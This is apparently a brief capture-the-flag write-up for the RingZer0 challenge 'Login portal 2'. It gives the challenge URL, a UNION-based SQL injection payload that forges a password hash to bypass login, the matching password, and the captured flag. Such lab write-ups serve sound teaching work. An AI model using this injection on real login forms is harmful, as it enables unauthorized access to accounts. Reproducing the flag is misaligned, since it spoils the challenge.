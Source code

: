 <h1>Login portal 2</h1>
<h3>Description</h3>
<p>http://challenges.ringzer0ctf.com:10004/</p>
<h3>Solution</h3>
<p>Payload</p> 
<pre>
Username : ' UNION all select username,sha1(1234) from users#
Password : 1234 (sama dengan column 2)
</pre>
<h3>Flag</h3>
<pre>
FLAG-wlez73yxtkae9mpr8aerqay7or
</pre>
